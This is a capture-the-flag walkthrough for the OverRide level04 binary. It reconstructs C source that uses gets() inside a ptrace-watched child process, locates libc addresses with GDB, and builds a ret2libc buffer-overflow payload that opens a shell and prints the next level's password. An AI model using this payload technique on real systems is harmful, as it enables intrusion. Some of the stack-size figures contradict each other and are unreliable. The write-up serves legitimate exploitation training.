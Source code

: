 # Level04

## Answer
Our C source code generates an assembly code similar to the original binary. Compile it as follows:
> There are some differences in the assembly code pointed out in the comments, they do impact the behavior of the program.
```
gcc -m32 -z execstack -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <signal.h>
#include <sys/ptrace.h>

void clear_stdin()
{
    unsigned char var = 0; // -0x9(%ebp)
    while (1)
    {
        var = getchar();
        if (var == '\n' || var == 0xff)
            break;
    }
}

unsigned int get_unum()
{
    unsigned int var1 = 0; // -0xc(%ebp)

    fflush(stdout);
    scanf("%u", &var1);
    clear_stdin();
    return var1;
}

void prog_timeout()
{
    exit(1); // Supposed to be a system call but cannot reproduce
}

void enable_timeout_cons()
{
    signal(SIGALRM, prog_timeout);
    alarm(60);
}
// any above functions are useless

// slight differences in assembly with stack variables alignment and optimization
int main()
{
    pid_t pid = fork(); // 0xac(%esp)
    char buff[128] = { 0 };  // 0x20(%esp)

    int ptrace_data = 0; // 0xa8(%esp)
    int stat_loc = 0;    // 0x1c(%esp)
    int backup;      // 0xa4(%esp)

    if (pid == 0)
    {
        prctl(1, 1);
        ptrace(PTRACE_TRACEME, 0, 0, 0);
        puts("Give me some shellcode, k");
        gets(buff);
    }
    else
    {
        do
        {
            wait(&stat_loc);
            backup = stat_loc;

            if (WIFEXITED(stat_loc) || WIFSIGNALED(stat_loc))
            {
                puts("child is exiting...");
                return 0;
            }

            ptrace_data = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
        } while (ptrace_data != 11);

        puts("no exec() for you");
        kill(pid, 9);
    }
    return 0;
}
```

Let's focus on the `main` function.  It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

### Ret2Libc
Check the [level01's walkthrough](../level01/walkthrough.md#ret2libc) for an explanation of the ret2libc technique.

We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0xf7e6aed0  system
[...]

# Exit
(gdb) info function exit
0xf7e5eb70  exit
[...]

# /bin/sh
(gdb) info proc mappings
[...]
0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

To find our padding, Let's analyze the stack layout of our program:
```bash
(gdb) set follow-fork-mode child # Follow the child process

(gdb) b *main+150 # Breaking after gets
Breakpoint 1 at 0x804875e

(gdb) b *main+168 # Breaking after wait
Breakpoint 2 at 0x8048770

(gdb) r # Run the program
Starting program: /home/users/level04/level04
[New process 2910]
Give me some shellcode, k
[Switching to process 2910]

Breakpoint 1, 0x0804875e in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xffffd650       0xffffd650
ebp            0xffffd708       0xffffd708
[...]
```

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 72 bytes:
```
0xbffff728 - 0xbffff6e0 = b8 (184 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x20(%esp),%eax`. Since there is 184 bytes for the stack, our buffer will therefore require 152 bytes (184 - 32) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 156 bytes (152 + 4).

Anything written beyond those 156 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*156 + "\xf7\xe6\xae\xd0" + "\xf7\xe5\xeb\x70" + "\xf7\xf8\x97\xec"
```

Let's run it:
```bash
level04@OverRide:~$ (python -c 'print("\x90"*156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])' && echo cat /home/users/level05/.pass) | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

We are now level05! Let's move on to the next level.